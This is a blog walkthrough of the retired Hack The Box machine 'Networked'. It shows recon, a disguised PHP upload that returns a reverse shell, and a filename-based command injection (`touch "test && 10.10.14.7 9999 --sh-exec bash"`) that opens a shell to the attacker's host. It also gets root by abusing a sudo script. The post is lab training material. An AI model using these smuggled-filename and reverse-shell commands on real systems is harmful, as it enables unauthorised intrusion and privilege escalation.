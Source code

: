 ```yaml
---
layout: post
title: "HTB-Networked"
categories: HTB-Walkthrough
---
```



![networked](/assets/img/networked/networked1.png)

Nmap first:

```
nmap 10.10.10.146 -sV -Pn |tee -a net.txt
```

```

Nmap scan report for 10.10.10.146
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
443/tcp closed https

```


<hr width="250" size="6">


Checking out the webserver on port 80 first.

There's a hint in the source:

![web](/assets/img/networked/net-web.png)



```
python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.146/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -e .gif
```

![backup](/assets/img/networked/net-backup.png)


```
tar xvf backup.tar

index.php
lib.php
photos.php
upload.php

```

`http://10.10.10.146/upload.php`

![uploadphp](/assets/img/networked/net-uploadphp.png)


<h3>Exploit Upload Evil.php.gif</h3>

We should upload evil.php
Rename it evil.php.gif and preprend GIF89 to the top of the file.

Trigger it by browsing to:
```
http://10.10.10.146/photos.php
```

![photosphp](/assets/img/networked/net-photosphp.png)


```

listening on [any] 6969 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 33466
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:58:47 up  2:44,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 

```

<hr width="250" size="6">



<h3>Privesc to Guly</h3>


There's an interesting php file in guly's home directory:



```

cat check_attack.php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```


This line is vulnerable to a code injection:
```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

It will execute the removal of the file, but we can append a second command to the first which will be 
executed by `guly`.


Go to the /var/www/html/uploads/ folder.
guly's php script pulls from here, we can use `touch` to create a file and execute an additional command.


we cannot use the normal " nc 10.10.14.7 -e /bin/bash" command, so we need an alternative.


```
bash-4.2$ touch "test  && 10.10.14.7 9999 --sh-exec bash"
```

catch the shell on `nc -nlvp 9999`

![gulyshell](/assets/img/networked/net-gulyshell.png)


and get the user flag:

```

ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt                                                                  
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo                                                                  
cat user.txt                                                                                                       
52xxxxxxxxxxxxxxxxxxxxxxxxxxxxc5  

```


<h3>Privesc to Root</h3>


sudo su fails, as expected but we can list sudo commands for `guly` with `sudo -l`.

![sudol](/assets/img/networked/net-sudol.png)


lets have a look at the file:

```

cat changename.sh

#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
y
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

```

This looks a bit dangerous. A bit like a 'Do It Yourself' `sudo su` command that can generate the shell of any user.



test it out:

run the file....
```
sudo /usr/local/sbin/changename.sh
```

then enter `sudo su` for everything......
get root shell.....

```

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
sudo su
sudo su
interface PROXY_METHOD:
sudo su
sudo su
interface BROWSER_ONLY:
sudo su
sudo su
interface BOOTPROTO:
sudo su
sudo su
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0axxxxxxxxxxxxxxxxxxxxxxxxxxxx82
[root@networked network-scripts]#

```

I guess it was executing `su` as root, either from the initial `sudo` executing the script,
or one of the entries in the 'user input' parts but I didn't stick around long enough to reason why, 
I just grabbed the flag and ran!

<h3>Revisited</h3>

When the box was retired I had a look at some write-ups for the box; [0xdf's writeup](https://0xdf.gitlab.io/2019/11/16/htb-networked.html) investigates
this last phenomenom, and finds that the script's regex sanitizes the first bit of text but executes what comes after the space.

so it executed the `su` after the space....so I could have typed `foo su` for each entry and got the same result.

revisiting the box, I confirm this:

![foosu](/assets/img/networked/net-foosu.png)


:)




